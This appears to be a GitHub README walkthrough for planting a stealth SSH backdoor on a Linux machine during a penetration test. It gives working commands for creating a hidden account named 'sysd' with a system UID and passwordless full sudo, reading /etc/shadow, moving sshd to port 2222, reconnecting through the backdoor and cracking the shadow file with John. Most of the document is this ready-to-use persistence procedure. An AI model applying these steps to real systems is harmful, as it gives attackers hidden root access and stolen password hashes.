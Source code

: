 # Creating a Back-Door - Owning the System

There are several Pentesting phases, methodologies, or frameworks such as the Mitre and the Cyber kill Chain frameworks. This project focus on the fourth phase of engagement (Maintaining Access) or their equivalents like "Command and Control" for the cyber kill chain or "Persistence" for the Mitre framework.

To obtain this persistence, a backdoor is created using the SSH service. In short, two things need to be accomplished to succeed in this task: Create a user, and set the SSH server.

> NOTE: This walkthrough assumes that the commands are executed as the root user. Otherwise, will be necessary to be a privileged user and to use the sudo command when required.

---

## Three steps are required to accomplish this task:

- Step 1: **Be a shadow** (Create a stealth user).

- Step 2: **Getting ready for a Smooth Sailing** (Set the SSH backdoor connection).

- Step 3: **All aboard** (The Final Test).

---

## Step 1: Be a shadow (Create a stealth user).


To be a "shadow" in the system means to remain as unnoticed as possible. To achieve it, we will create a user with different features next listed.

1. The right user's name.
2. User with no home directory.
2. System user's UID and GID.
4. Grant full sudo privileges to the "shadow user" without the need of a password.
5. Testing

- ### The right user's name

    Use a name that blends with the system, so remain unotice. A name that looks as a process will be the choice in this walkthrough.

    **Username: sysd**

- ### User with no home directory   

    It is easy to look for listed users in a Linux system by quering the /home directory (see the picture). 
    
     ![1](Images/1.PNG)    
    
    A user not listed in the home path will obtain stealth. To create a new user without a folder in the home directory, use the next command:

    `adduser --no-create-home sysd`

    Give your secret user a password:

    `passwd sysd`

    Press enter on each of the next setting to leave them blank.

    ![2](Images/2.PNG) 

- ### System user's UID and GID

    UID (User Identified), and GID (Group Identifier) are numbers that identify users and groups. Numbers below 1000 are reserved for system processes. The "shadow user" should look like another process, so the following commands will do that.

    `usermod  -u 777 sysd`

    `groupmod -g 777 sysd`

    ![3](Images/3.PNG)

- ### Grant full sudo privileges to the "shadow user" without the need of a password.

    On a Linux system, the sudoers file is the file where the privilege settings exist. Here, sudo access will be configured for the "shadow" user using the following command:

    `echo 'sysd ALL=(ALL:ALL) NOPASSWD:ALL' >> /etc/sudoers`

    ![4](Images/4.PNG)

- ### Testing

    To verify that the "shadow" user has full sudo privileges and is ready to use them without a password, use the following commands:

    Check sysd priviledges:

    `sudo  -lU sysd`

    ![5](Images/5.PNG)

    Switch from current user to sysd user:

    `su sysd`

    ![6](Images/6.PNG)

    To test the current user sudo privileges, we need to revoke any previous sudo privileges stored in the cache. The next command accomplishes this.

    `sudo -k`

    ![7](Images/7.PNG)

    Check if ask for password when accessing the shadow file. This sensitive file holds the passwords' hash of all users in the system. Usually, only a sudo privilege user has access to this file. This user would need to enter a password to gain access. If no password is required, our setting pass the test. 

    `sudo cat /etc/shadow`

    ![8](Images/8.PNG)
    > Note in the image that sysd user is listed in the file with its respective password hash
---

## Step 2: Getting ready for a Smooth Sailing (Set the SSH backdoor connection)

We will use SSH (Secure Shell) to establish a remote connection with the target device. To create this backdoor, we need to set the SSH server configuration file. This file is located in the ssh directory. This directory holds several configuration files such as the SSH client, SSH server, and public and private keys used to encrypt sessions. SSH normally uses port 22. We want to maintain a stealth connection, so we are changing that port to 2222.

- Access and modify the file with nano:

    `nano /etc/ssh/sshd_config`

    ![9](Images/9.PNG)

  - Edit the sshd_config file:

    `Port 2222`

    ![10](Images/10.PNG)

- Save and Exit
    ```
    Press "Ctrl x" keys
    Press "y" key
    Press "enter" key
    ```

- Restart the SSH service to activate the new configuration:

    `sudo systemctl restart ssh`

    ![11](Images/11.PNG)

---

## Step 3: All aboard (The Final Test)

Exiting the target machine, then access it again through the previously created backdoor.

- Exit the target machine

    Enter the exit command and hit enter until exit the target machine

    `exit`

    ![12](Images/12.PNG)
  

- Access the target throught the backdoor (change the ip address for the one of your target machine).

    `ssh sysd@192.168.6.105 -p 2222`


- Use sudo to switch to the root user:

    `sudo -s`

---

A backdoor has been created. Now that persistence (Command and Control or Maintaining Access) has been accomplished, it is time to move to the next step of the killer chain (Actions on Objective) or to the last stage of engagement (Covering your tracks).

Example:
Use John to crack the entire /etc/shadow file:

`john /etc//shadow`